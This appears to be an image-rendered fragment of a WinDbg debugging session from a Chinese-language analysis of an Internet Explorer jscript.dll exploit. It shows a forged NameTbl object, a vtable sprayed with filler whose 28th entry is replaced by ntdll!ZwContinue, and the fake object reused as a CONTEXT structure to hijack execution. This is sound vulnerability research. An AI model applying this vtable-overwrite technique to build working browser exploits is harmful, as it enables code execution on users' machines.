 ```
00000000`0538fdb0 00000000`76cec541 kernel32!BaseThreadInitThunk+0xd
00000000`0538fde0 00000000`00000000 ntdll!RtlUserThreadStart+0x1d

// 伪造的jscript!NameTbl对象
0:013&gt; dq 075c0a70 l68/8
00000000`075c0a70  00000000`056ced98 00000000`00000000
00000000`075c0a80  00000000`00000000 00000000`00000000
00000000`075c0a90  00000000`00000000 00000000`00000000
00000000`075c0aa0  00000000`00100003 00000000`00000033
00000000`075c0ab0  00000246`002b0000 00000000`00000000
00000000`075c0ac0  00000000`00000000 00000000`00000000
00000000`075c0ad0  00000000`00000000

// 伪造的jscript!NameTbl虚表
0:011&gt; dps 00000000`056ced98 l40
00000000`056ced98  00410041`00410041
00000000`056ceda0  00410041`00410041
00000000`056ceda8  00410041`00410041
00000000`056cedb0  00410041`00410041
00000000`056cedb8  00410041`00410041
00000000`056cedc0  00410041`00410041
00000000`056cedc8  00410041`00410041
00000000`056cedd0  00410041`00410041
00000000`056cedd8  00410041`00410041
00000000`056cede0  00410041`00410041
00000000`056cede8  00410041`00410041
00000000`056cedf0  00410041`00410041
00000000`056cedf8  00410041`00410041
00000000`056cee00  00410041`00410041
00000000`056cee08  00410041`00410041
00000000`056cee10  00410041`00410041
00000000`056cee18  00410041`00410041
00000000`056cee20  00410041`00410041
00000000`056cee28  00410041`00410041
00000000`056cee30  00410041`00410041
00000000`056cee38  00410041`00410041
00000000`056cee40  00410041`00410041
00000000`056cee48  00410041`00410041
00000000`056cee50  00410041`00410041
00000000`056cee58  00410041`00410041
00000000`056cee60  00410041`00410041
00000000`056cee68  00410041`00410041
00000000`056cee70  00410041`00410041
00000000`056cee78  00410041`00410041
00000000`056cee80  00410041`00410041
00000000`056cee88  00410041`00410041
00000000`056cee90  00410041`00410041
00000000`056cee98  00410041`00410041
00000000`056ceea0  00410041`00410041
00000000`056ceea8  00410041`00410041
00000000`056ceeb0  00410041`00410041
00000000`056ceeb8  00410041`00410041
00000000`056ceec0  00410041`00410041
00000000`056ceec8  00410041`00410041
00000000`056ceed0  00000000`76d116e0 ntdll!ZwContinue // 虚表第 28 项被改写为 ntdll!ZwContinue，此处原先为 jscript!ObjEvtHandler::FPersist 函数地址
...

// 直接将一个伪造的jscript!NameTbl对象当做_CONTEXT结构体，放入rcx寄存器进行传参
0:013&gt; dt _CONTEXT 00000000`075c0a70
ntdll!_CONTEXT
   +0x000 P1Home           : 0x56ced98
   +0x008 P2Home           : 0
```